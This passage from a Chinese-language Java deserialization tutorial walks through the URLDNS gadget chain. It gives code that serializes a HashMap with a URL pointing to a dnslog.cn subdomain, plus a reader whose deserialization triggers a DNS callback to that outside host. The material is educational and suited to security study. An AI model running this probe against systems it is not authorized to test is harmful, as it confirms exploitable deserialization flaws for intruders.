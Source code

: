 整个调用链

```plain
HashMap->readObject()
HashMap->hash()
URL->hachCode()
URLStreamHandler->hachCode()
URLStreamHandler->getHostAddress()
InetAddress.getByName()
```

## 7.4 反序列化利用

```plain
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;
public class DnsTest {
 public static void main(String[] args) throws Exception {
   HashMap<URL,Integer> hashmap =new HashMap<URL,Integer>();
   URL url = new URL("http://nxfsji.dnslog.cn");
   Class c = url.getClass();
   Field fieldhashcode=c.getDeclaredField("hashCode");
   fieldhashcode.setAccessible(true);
   fieldhashcode.set(url,222); //第一次查询的时候会进行缓存，所以让它不等于 -1
   hashmap.put(url,2);
   fieldhashcode.set(url,-1); //让它等于 -1 就是在反序列化的时候等于 -1 执行 dns 查询
   serialize(hashmap);
 }
 public static void serialize(Object obj) throws IOException {
   ObjectOutputStream oos = new ObjectOutputStream(new
FileOutputStream("ser.bin"));
   oos.writeObject(obj);
   oos.close();
 }
}
```

进行反序列化

```plain
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
public class RrefilectDns{
 public static void main(String[] args) throws Exception{
   unserialize();
 }
 public static void unserialize() throws IOException, ClassNotFoundException
{
   ObjectInputStream ois = new ObjectInputStream(new
FileInputStream("ser.bin"));
   ois.readObject();
   ois.close();
 }
}
```
